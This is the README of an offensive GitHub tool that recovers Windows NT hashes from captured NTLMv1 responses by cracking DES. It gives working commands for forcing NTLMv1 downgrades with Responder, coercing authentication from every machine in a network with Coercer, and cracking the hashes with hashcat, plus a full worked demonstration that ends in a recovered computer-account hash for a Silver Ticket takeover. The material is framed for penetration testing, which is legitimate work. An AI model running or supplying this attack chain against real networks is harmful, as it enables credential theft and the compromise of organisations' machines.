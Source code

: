 # ntlmv1

tl;dr -- If you can get an NTLMv1 hash, you can be that person (for a user account) or compromise that machine (for a computer account) for about $30 USD, no matter how strong the password, by cracking DES itself. A bargain!

## Background

We have four on-prem authentication protocols for Windows:

1. LANMAN Challenge/Response (uses the LM hash and DES encryption)
2. NTLMv1 (uses the NT hash and DES encryption)
3. NTLMv2 (uses the NT hash and MD5 hashing)
4. Kerberos (uses DES or AES encryption, depending upon the hash type. [It's complicated](https://syfuhs.net/a-bit-about-kerberos))

Interestingly, Kerberos uses Service Principal *Names* (SPNs) for service tickets. If you're accessing a target by IP, in nearly all circumstances you'll be using NTLMv2 or NTLMv1.

The most important job of a challenge/response protocol is that you're not just sending the password in plain text. Instead, both sides have the secret, and the server issues a mathematical challenge based upon that secret, which the client computes and sends back.

In contrast, SNMPv1 "community strings" are essentially passwords sent with every request.

Normally, when discussing cracking NTLMv1 (or NTLMv2) hashes, the cracking tool is fundamentally guessing passwords, creating the NT hash for them, then walking through the captured server-issued challenge before comparing the captured client response (this is the "guess/hash/compare" cycle). Instead, since NTLMv1 uses DES encryption with 56-bit keys, by cracking the DES-encrypted client response we can derive the original client NT hash, which we can then pass using Pass-the-Hash techniques.

This is a fairly involved procedure, since cracking DES involves approximately 72 quadrillion DES operations (2^56). Surprisingly, with today's GPU cracking speeds (a single RTX 4090 can compute approximately [146 billion hashes per second](https://gist.github.com/Chick3nman/32e662a5bb63bc4f51b847bb422222fd#file-rtx_4090_v6-2-6-benchmark-L1505)), with available cloud resources such as [Vast.AI](https://vast.ai), this means it costs on average around $30 USD to crack the NT hash out of a captured NTLMv1 connection.

## Getting NTLMv1 Hashes

Windows hasn't supported NTLMv1 by default for a long, long time. However, it's not uncommon to have a few systems that still have it enabled, such as file servers that need to support old (or non-Windows) clients. If we can get a computer account to give us an NTLMv1 hash, we can then perform a [Silver Ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket) attack to take over that machine. This is the attack outlined in the [NetNTLMToSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket) repository.

This is often catastrophic to the security of the organization, as we could then dump the credentials of logged-on users on that machine (via [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)-style attacks), dump local password hashes, cached domain credentials, search through all those file shares, and more.

With [Responder](https://github.com/lgandx/Responder) attacks, we can trick Windows machines in the same subnet ("broadcast domain" technically) to log in to us when those Windows machines have failed DNS requests. We can then capture the hash and attempt to crack them offline.

With Responder, we also have a few options to force a downgrade back to NTLMv1:

```bash
Responder -I eth0 --lm --disable-ess
```

We also have two options to get machines _outside_ our subnet to authenticate to us:

1. Adding DNS records for the failed requests we spot with Responder, as authenticated AD accounts can do this via [Powermad](https://github.com/Kevin-Robertson/Powermad) or [DNSUpdate](https://github.com/Sagar-Jangam/DNSUpdate). Since the DNS request will succeed, we can insert our own machine as the target, which will work across subnets (to any machine using the same DNS server). 
2. By coercing authentication with one of the many methods available. Windows, as it turns out, has many API calls that allow authenticated clients to force a remote machine to authenticate against a target IP of their choosing. This is referred to as "coerced authentication" and is implemented in tools like [Coercer](https://github.com/p0dalirius/Coercer), [DFSCoerce](https://github.com/Wh04m1001/DFSCoerce), and [SpoolSample](https://github.com/leechristensen/SpoolSample).

If you know what Windows machines are in a target environment (perhaps via scanning internal subnets with [Masscan](https://github.com/robertdavidgraham/masscan)), you can use Coercer as follows to attempt to coerce authentication to your Responder machine to _every_ machine in the target environment:

```bash
cat smb-servers.txt | while read ip; do timeout -k 30 15 python3 Coercer.py -l IP.ADDR.OF.RESPONDER -t "$ip" -u any-domain-account -p Password123 -d DOMAIN --always-continue; done
```

Coercer supports multiple targets, but I've found it crashes too often to trust using it that way. 

To my knowledge, you need admin rights to find out if a remote machine supports NTLMv1 authoritatively (by reading the [LMCompatibilityLevel](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc960646(v=technet.10)?redirectedfrom=MSDN) registry value). 

## Installation

To install the necessary dependencies, run the following command:

```bash
git clone https://github.com/RogueValleyInformationSecurity/ntlmv1
cd ntlmv1
pip install -r requirements.txt
python3 ntlmv1.py -h
```

If you haven't already installed Responder, I like using [PTF](https://github.com/trustedsec/ptf) on Debian or Ubuntu for that purpose:

```bash
git clone https://github.com/trustedsec/ptf
cd ptf
sudo ./ptf
use modules/exploitation/responder
run
exit
```

This will install Responder into `/pentest/exploitation/responder`, so the logs will be in `/pentest/exploitation/responder/logs`. You'll want all the unique NTLMv1 hashes you can get (likely with file names like `SMB-NTLMv1-*.txt`). If you have a choice in the matter (like in an Assumed Breach test), you'll want to place your Responder machine in a busy subnet with lots of client Windows machines.

## Usage

You'll need NTLMv1 hashes in the Responder format to use this tool, along with [Hashcat](https://hashcat.net/hashcat/) to crack the DES encryption. 

```bash
ls -l /pentest/exploitation/responder/logs/SMB-NTLMv1-*.txt
python3 ntlmv1.py --ntlmv1 $(head -n 1 /pentest/exploitation/responder/logs/SMB-NTLMv1-*.txt)
```

The example used a subshell to take the first line of the file, but you could also just use line directly.

## Demonstration

Here's an example Responder hash in NTLMv1 format:

```
FILE01$::HIBOXY:29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9:29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9:ea1ebed2adc2b0ce
```

This is the hash for the computer account `FILE01$` in the `HIBOXY` domain. Let's use it with `ntlmv1.py`:

```bash
python3 ntlmv1.py --ntlmv1 'FILE01$::HIBOXY:29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9:29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9:ea1ebed2adc2b0ce'
NTLMv1 Hash Information:
User: FILE01$
Domain: HIBOXY
Challenge: ea1ebed2adc2b0ce
LM Response: 29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9
NT Response: 29F6C0D455D0C29851D5E8217DF9CDFD88FCC6ED4E84C0E9
CT1: 29F6C0D455D0C298
CT2: 51D5E8217DF9CDFD
CT3: 88FCC6ED4E84C0E9

Last two bytes of NT hash: c701

To crack with hashcat:
echo '29F6C0D455D0C298:ea1ebed2adc2b0ce' >> 14000.hash
echo '51D5E8217DF9CDFD:ea1ebed2adc2b0ce' >> 14000.hash
hashcat -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1


Note: You'll need to update the path to the DES_full.hcchr charset file.

# We can cheat and give the first few bytes of the DES key to hashcat, which will help it crack much faster.

hashcat -m 14000 -a 3 -1 /pentest/password-recovery/hashcat/charsets/DES_full.hcchr --hex-charset 14000.hash 736bdf04c1?1?1?1
hashcat -m 14000 -a 3 -1 /pentest/password-recovery/hashcat/charsets/DES_full.hcchr --hex-charset 14000.hash 6bbf9eec2c?1?1?1

# Since we're giving the first few bytes of the DES key, we need to crack each half separately.

cat /pentest/password-recovery/hashcat/hashcat.potfile
29f6c0d455d0c298:ea1ebed2adc2b0ce:$HEX[736bdf04c12fa81f]
51d5e8217df9cdfd:ea1ebed2adc2b0ce:$HEX[6bbf9eec2cbf3897]

# Now we'll use deskey_to_ntlm from Hashcat (https://github.com/hashcat/hashcat-utils/blob/master/src/deskey_to_ntlm.pl) to convert the DES key to the NT hash pieces:
deskey_to_ntlm 736bdf04c12fa81f
72d7782c05ea0f
deskey_to_ntlm 6bbf9eec2cbf3897
6b7e7f62d7ce4b

# Now we combine the three pieces of the hash back together:
export first=72d7782c05ea0f # Output from deskey_to_ntlm 736bdf04c12fa81f
export second=6b7e7f62d7ce4b # Output from deskey_to_ntlm 6bbf9eec2cbf3897
export third=c701 # Output from ntlmv1.py
echo "NT hash of FILE01$ is: $first$second$third" 
```

From here, you could use that NT hash of the computer account to gain direct code execution against it through a Silver Ticket attack, as nicely described [here](https://github.com/NotMedic/NetNTLMtoSilverTicket?tab=readme-ov-file#create-a-kerberos-silver-ticket).

## Credits

This repository is based upon the following work:

 - [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) by [EvilMog](https://twitter.com/evil_mog)

## License

This repository is licensed under the MIT License. See the [LICENSE](LICENSE) file for the full license text.